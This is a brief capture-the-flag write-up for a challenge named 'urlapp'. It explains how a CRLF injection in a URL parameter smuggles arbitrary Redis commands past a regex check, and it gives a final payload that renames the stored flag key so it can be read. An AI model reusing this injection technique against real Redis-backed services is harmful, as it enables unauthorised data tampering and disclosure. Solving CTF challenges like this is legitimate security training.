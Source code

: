 ### urlapp

- Flag is stored in the redis db under the key `flag`
- Can `GET` arbitrary keys from the redis db following the regex `/^[0-9a-f]{16}$/`  (16 hex chars)
- CRLF Injection in `set` bypassing the URI regex, can inject arbitrary redis commands.
- Rename flag key to an hex key and also replace `{` and `}` as they fuck up the redirect 

Final payload: ```http://lol/%0d%0aSETRANGE flag 7 F%0d%0aSETRANGE flag 35 F%0d%0aRENAME flag aaaaaaaaaaaaaaaa%0d%0a```
